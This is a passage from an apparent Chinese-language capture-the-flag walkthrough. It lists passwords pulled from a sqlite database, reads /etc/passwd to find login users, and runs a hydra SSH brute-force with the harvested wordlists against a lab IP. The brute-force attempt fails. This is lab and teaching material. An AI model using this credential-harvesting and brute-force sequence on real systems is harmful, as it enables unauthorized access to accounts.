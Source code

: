 ```shell
COMMIT;
sqlite>
```

发现有几个密码

```
myinvitecode123
mysecondinvitecode
cloudavtech
mostsecurescanner
```



## 6. 爆破账号

已经有了账号，现在获取可以登录的用户

执行命令

```
cat /etc/passwd | grep /bin/bash
```

结果

```
root:x:0:0:root:/root:/bin/bash
cloudav:x:1000:1000:cloudav:/home/cloudav:/bin/bash
scanner:x:1001:1001:scanner,,,:/home/scanner:/bin/bash
```

构造字典如下

user.txt

```
root
cloudav
scanner
```

pass.txt

```
myinvitecode123
mysecondinvitecode
cloudavtech
mostsecurescanner
```

爆破ssh服务

```
hydra -L user.txt -P pass.txt ssh://192.168.0.103
```

爆破失败
